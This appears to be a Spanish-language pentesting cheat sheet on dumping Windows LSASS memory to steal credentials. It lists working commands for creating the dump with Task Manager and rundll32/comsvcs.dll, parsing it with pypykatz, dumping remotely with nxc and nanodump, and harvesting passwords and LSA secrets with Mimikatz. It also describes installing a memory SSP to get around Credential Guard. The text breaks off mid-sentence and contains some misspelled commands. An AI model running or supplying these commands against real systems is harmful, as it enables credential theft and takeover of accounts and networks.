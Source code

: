 ### Obtener lsass.dmp
#### Task Manager
1. Abrir `Task Manager` > Tab `Processes` > Clic derecho en `LSASS.exe`.
2. Seleccionar `Create Dump File`.

#### Rundll32.exe
1. Encontrar el PID de LSASS:
   - Con `cmd`:
     ```cmd
     tasklist /svc | findstr lsass
     ```
   - Con PowerShell:
     ```powershell
     Get-Process lsass
     ```
2. Crear el volcado:
   ```powershell
   rundll32 C:\windows\system32\comsvcs.dll, MiniDump <PID> C:\lsass.dmp full
   ```

### Analizar el archivo  `lsass.dmp` con `pypykatz`
```
pypykatz lsa minidump /path/to/lsass.dmp
```

### con `nxc`
- Con credenciales administrador...
	```bash
	nxc smb $target -u $username -p $password -M nanodump
	# Quizás puede arrojar más información
	nxc smb $target -u $username -p $password --lsa
	# Algunos hashes hay que craquearlos
	
	```

### Mimikatz
Utilizando `seurlsa::logonpasswrods` podemos acceder al proceso activo de LSASS y nos puede dar más información que el paso anterior
```powershell
.\mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
# o volcando la información en un archivo
.\mimikatz.exe privilege::debug sekurlsa::logonpasswords exit *> dumpLSASS.txt
# Podríamos encontrar claves kerberos y secretos LSA aquí
.\mimikatz.exe privilege::debug lsadump::lsa /patch exit *> secrets_lsa.txt
```
### Mitigación credentialGuard - Obtención de credenciales en texto plano
Cuando este está activado, no podemos recuperar los hashes de memoria. Solo está pensado para proteger a usuarios no locales
- Comprobación de si está activado
	```powershell
	Get-ComputerInfo
	```
- El comando `misc::memssp` en Mimikatz instala un "Security Support Provider" (SSP) personalizado en memoria, lo que permite capturar credenciales en texto plano antes de que sean protegidas por Credential Guard. Esto solo tendrá efecto para los usuarios que se logueen a posteriori. Con acceso de administrador debemos ejecutar